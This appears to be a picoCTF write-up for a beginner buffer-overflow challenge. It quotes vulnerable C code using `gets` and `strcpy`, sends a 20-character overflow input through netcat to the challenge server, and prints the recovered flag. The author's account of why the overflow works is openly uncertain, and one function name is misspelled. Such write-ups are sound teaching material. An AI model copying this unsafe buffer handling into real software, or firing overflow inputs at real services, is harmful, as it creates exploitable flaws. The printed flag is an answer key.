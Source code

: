 ### Current progress: Done

An unstripped ELF 32-bit executable and its c source code was given.

As the challenge name suggest, this is likely a buffer overflow problem.

The point of focus in our c code is this `vuln` function:
```
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

and part of the `main` function:
```
char buf1[100];
gets(buf1); 
vuln(buf1);
```

Copying an array of 100 characters into one that's 16 characters is not a good idea.
In fact, one should never use `strcpy` and should use `strnpy` instead.
Here is a [YouTube video](https://youtu.be/7mKfWrNQcj0) by Jacob Sorber explains why not to ever use `strcpy`.

We `chmod +x vuln` and then printing "A"  `python -c 'print("A" * 20)' | ./vuln` which gives us our test `flag.txt`

Digging deeper with `objdump -t`. I think that it is because the buffer overflows from the `completed.7623` shown here:
![objdump](objdump.jpg)
However, I'm not a 100% sure if this is the correct assumption.

Anyway, we can adapt the code to be piped into netcat as follow:
`python -c 'print("A" * 20)' | nc saturn.picoctf.net [port]`

This gives use the flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_ee2fd2b1}`